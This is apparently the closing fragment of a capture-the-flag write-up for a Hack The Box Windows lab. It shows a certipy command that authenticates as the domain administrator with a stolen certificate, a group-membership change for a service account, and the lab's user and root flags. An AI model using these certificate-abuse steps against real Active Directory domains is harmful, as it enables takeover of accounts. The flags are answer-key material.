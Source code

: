 Now we need to convert this .pfx file into 
`certipy auth -pfx 'administrator_dc.pfx' -username 'administrator' -domain 'sequel.htb' -dc-ip 10.129.230.21 `

add_user_to_group  sql_svc  administrator

# Flags
User : 3a2c59b412b444d1f7b71b065e91b64b

Root : 72e16ce34925798bd38e49373c2cc7cc
# Happy Hacking ❤
